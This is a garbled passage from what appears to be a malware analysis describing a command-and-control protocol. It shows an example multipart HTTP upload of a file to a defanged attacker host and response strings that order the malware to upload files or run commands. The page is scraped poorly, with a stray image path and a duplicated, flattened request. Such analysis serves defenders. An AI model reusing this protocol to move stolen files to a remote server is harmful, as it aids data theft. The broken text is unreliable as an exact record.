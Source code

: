 sys upto "filename.exe";\n





An example upload request can be seen below:





POST /index.php?fn=s2&item=70efdf2ec9b086079795c442636b55fb
HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Content-Type: multipart/form-data; boundary=---------------------------d5340oqbasdfaa
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;
Trident/6.0)
Host: biosnews[.]info
Content-Length: 115126
Connection: Keep-Alive
 
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="file";
filename="calc_malware.exe"
Content-Type: application/octet-stream
 
[BINARY_DATA]
 
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="path"
 
70efdf2ec9b086079795c442636b55fb
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="submit"
 
Submit
-----------------------------d5340oqbasdfaa--




1234567891011121314151617181920212223242526

POST /index.php?fn=s2&item=70efdf2ec9b086079795c442636b55fbHTTP/1.1Accept: text/html, application/xhtml+xml, */*Content-Type: multipart/form-data; boundary=---------------------------d5340oqbasdfaaUser-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;Trident/6.0)Host: biosnews[.]infoContent-Length: 115126Connection: Keep-Alive -----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="file";filename="calc_malware.exe"Content-Type: application/octet-stream [BINARY_DATA] -----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="path" 70efdf2ec9b086079795c442636b55fb-----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="submit" Submit-----------------------------d5340oqbasdfaa--





The remote server can also send the following example response. This response will instruct the malware to execute the given command:





[command];\n

